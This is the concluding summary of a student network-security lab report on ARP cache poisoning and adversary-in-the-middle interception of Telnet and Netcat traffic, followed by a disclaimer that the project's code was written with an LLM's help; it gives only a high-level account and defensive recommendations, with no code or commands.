In this lab, we demonstrated the feasibility and impact of ARP cache poisoning attacks in a local network.  By exploiting the lack of authentication in the ARP protocol, Host M successfully positioned itself as an adversary in the middle between Hosts A and B. Through controlled experiments, we showed how ARP replies and gratuitous ARP messages can be used to poison ARP caches under different conditions. 

We further illustrated the consequences of such attacks by disrupting communication when IP forwarding was disabled and by transparently intercepting and modifying application layer data when forwarding was selectively controlled. 
Finally, adversary in the middle attacks were implemented on both Telnet and Netcat connections, demonstrating how differences in application behavior affect packet manipulation strategies. 


Overall, this lab activity highlighted the security weaknesses of ARP and underscored the importance of deploying protective mechanisms such as secure ARP, traffic encryption, and network monitoring to defend against these types of attacks.


&nbsp;
&nbsp;
## Disclaimer ⚠️
The code used in this project was largely written with the assistance of a large language model, due to my limited proficiency in programming languages. However, I am able to read, understand, and critically evaluate the implemented code. Thus, all design choices, results, and any potential errors or inaccuracies present in this project are solely my responsibility.


